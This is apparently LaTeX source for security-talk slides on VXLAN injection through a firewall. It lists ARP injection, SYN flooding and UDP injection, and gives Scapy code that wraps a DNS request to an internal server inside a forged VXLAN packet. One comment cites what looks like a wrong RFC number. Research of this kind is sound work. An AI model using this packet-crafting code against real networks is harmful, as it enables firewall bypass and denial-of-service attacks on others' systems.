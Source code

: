 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\begin{list2}
\item Inject ARP traffic, send arbitrary ARP packets to hosts, connectivity DoS
\item Inject TCP like SYN traffic behind the firewall, wire speed SYN flooding
\item Inject UDP packets and get responses sent out through firewall
\item Really anything IPv4 and IPv6 can be injected
\end{list2}







{\small Attacker can send UDP DNS request to inside server on RFC1918 destination\\
Note: server has no external IP or incoming ports forwarded.\\
Tested working with Clavister with DNS UDP probes/requests, no inspection }



First create VXLAN header and inside packet
\begin{verbatim}
vxlanport=4789     # RFC 7384 port 4789, Linux kernel default 8472
vni=37             # Usually VNI == destination VLAN
vxlan=Ether(dst=routermac)/IP(src=vtepsrc,dst=vtepdst)/
   UDP(sport=vxlanport,dport=vxlanport)/VXLAN(vni=vni,flags="Instance")

broadcastmac="ff:ff:ff:ff:ff:ff"
randommac="00:51:52:01:02:03"
attacker="185.27.115.666"
destination="10.0.0.10"
# port is the one we want to contact inside the firewall
insideport=53
# this port is a high port, just make this look like a normal request
testport=54040
packet=vxlan/Ether(dst=broadcastmac,src=randommac)/IP(src=attacker,
    dst=destination)/UDP(sport=testport,dport=insideport)/
    DNS(rd=1,id=0xdead,qd=DNSQR(qname="www.wikipedia.org"))
\end{verbatim}
\end{document}
